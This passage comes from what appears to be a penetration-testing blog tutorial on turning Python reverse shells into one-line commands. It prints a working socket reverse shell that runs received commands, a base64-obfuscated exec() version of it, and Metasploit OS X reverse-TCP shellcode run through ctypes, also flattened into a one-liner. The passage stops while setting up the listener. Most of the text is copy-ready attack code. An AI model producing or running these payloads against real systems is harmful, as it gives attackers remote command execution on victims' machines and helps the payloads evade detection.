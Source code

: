 markbaggett$ python

Python 2.5.1 (r251:54863, May  5 2011, 18:37:34) 

[GCC 4.0.1 (Apple Inc. build 5465)] on darwin

Type "help", "copyright", "credits" or "license" for more information.

>>> shellcode="import socket, subprocess;s = socket.socket();s.connect(('127.0.0.1',9000))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())"

>>> shellcode.encode("base64")

'aW1wb3J0IHNvY2tldCwgc3VicHJvY2VzcztzID0gc29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgo\nJzEyNy4wLjAuMScsOTAwMCkpCndoaWxlIDE6ICBwcm9jID0gc3VicHJvY2Vzcy5Qb3BlbihzLnJl\nY3YoMTAyNCksIHNoZWxsPVRydWUsIHN0ZG91dD1zdWJwcm9jZXNzLlBJUEUsIHN0ZGVycj1zdWJw\ncm9jZXNzLlBJUEUsIHN0ZGluPXN1YnByb2Nlc3MuUElQRSk7cy5zZW5kKHByb2Muc3Rkb3V0LnJl\nYWQoKStwcm9jLnN0ZGVyci5yZWFkKCkp\n'


Next we take the base64 encoded version of our payload and exec() that with the decode() method to turn it back into our script source before execution. Our one liner becomes this:

python -c "exec('aW1wb3J0IHNvY2tldCwgc3VicHJvY2VzcztzID0gc29ja2V0LnNvY2tldCgpO3MuY29ubmVjdCgo\nJzEyNy4wLjAuMScsOTAwMCkpCndoaWxlIDE6ICBwcm9jID0gc3VicHJvY2Vzcy5Qb3BlbihzLnJl\nY3YoMTAyNCksIHNoZWxsPVRydWUsIHN0ZG91dD1zdWJwcm9jZXNzLlBJUEUsIHN0ZGVycj1zdWJw\ncm9jZXNzLlBJUEUsIHN0ZGluPXN1YnByb2Nlc3MuUElQRSk7cy5zZW5kKHByb2Muc3Rkb3V0LnJl\nYWQoKStwcm9jLnN0ZGVyci5yZWFkKCkp\n'.decode('base64'))"


Now lets apply this technique to a python shells that executes a payload from the Metasploit framework such as the one I discussed on the SANS Penetration Testing Blog. With this technique I create a python script that executes a payload from the metasploit framework. In this example I'll use the osx reverse tcp shell. After grabbing the stage1 bytes from "$./msfpayload osx/x86/shell_reverse_tcp LHOST=127.0.0.1 C" ( see SANS blog ) I built the following python script.

from ctypes import *

reverse_shell = "\x68\x7f\x00\x00\x01\x68\xff\x02\x11\x5c\x89\xe7\x31\xc0\x50\x6a\x01\x6a\x02\x6a\x10\xb0\x61\xcd\x80\x57\x50\x50\x6a\x62\x58\xcd\x80\x50\x6a\x5a\x58\xcd\x80\xff\x4f\xe8\x79\xf6\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x54\x54\x53\x50\xb0\x3b\xcd\x80"

memorywithshell = create_string_buffer(reverse_shell, len(reverse_shell))

shellcode = cast(memorywithshell, CFUNCTYPE(c_void_p))

shellcode()


Spaces and carriage returns aren't a problem for this very simple script so with a few semicolons we get the following one liner. We don't need to use the "exec()" function since we don't need to interpret multiple lines.

root# python -c "from ctypes import *;reverse_shell = \"\x68\x7f\x00\x00\x01\x68\xff\x02\x11\x5c\x89\xe7\x31\xc0\x50\x6a\x01\x6a\x02\x6a\x10\xb0\x61\xcd\x80\x57\x50\x50\x6a\x62\x58\xcd\x80\x50\x6a\x5a\x58\xcd\x80\xff\x4f\xe8\x79\xf6\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x54\x54\x53\x50\xb0\x3b\xcd\x80\";memorywithshell = create_string_buffer(reverse_shell, len(reverse_shell));shellcode = cast(memorywithshell, CFUNCTYPE(c_void_p));shellcode()"

Before pressing enter on the shell above you will need to setup the framework multi/handler to receive the incoming shell.. This time the shell is connecting back to the default port of 4444 so we set it up as follows:
